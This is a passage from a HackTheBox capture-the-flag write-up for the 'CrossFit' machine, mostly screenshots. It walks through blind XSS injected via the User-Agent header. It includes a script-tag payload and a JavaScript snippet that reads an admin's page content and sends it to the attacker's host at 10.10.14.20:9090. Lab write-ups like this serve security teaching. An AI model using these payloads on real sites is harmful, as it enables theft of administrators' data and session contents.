 The comment was sent and a message appears on my screen

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2010:20:24.png)

We also send it to burp, to play arround

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2010:21:09.png)

### XSS Attempt

Let's try some XSS in it. This "will be evaluated by a moderator" is a strong indicative that it's vulnerable to XSS

First, I tried the simple one

`<script src="http://10.10.14.20"></script>`

And got a message error... Interesting

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2010:24:11.png)

```
A security report containing your IP address and browser information will be generated and our admin team will be immediately notified
```

Interesting, information about my ip address and browser. I spent a lot of time trying to byppass it, but this message give me a good clue about what to do.

What if we send the XSS in our browser information, as User-Agent for example?

We send it, the error was triggered

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2010:34:34.png)

And we get it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2010:34:49.png)

Good, what if we make the admin read the report.php file for us?

First let's get the page

0x4rt3mis.js

```js
function send_report(){
        var req=new XMLHttpRequest();
        req.open('GET', 'http://10.10.14.20:9090/?xss=' + document.body.innerHTML, true);
        req.send();
}

send_report();
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2010:51:25.png)
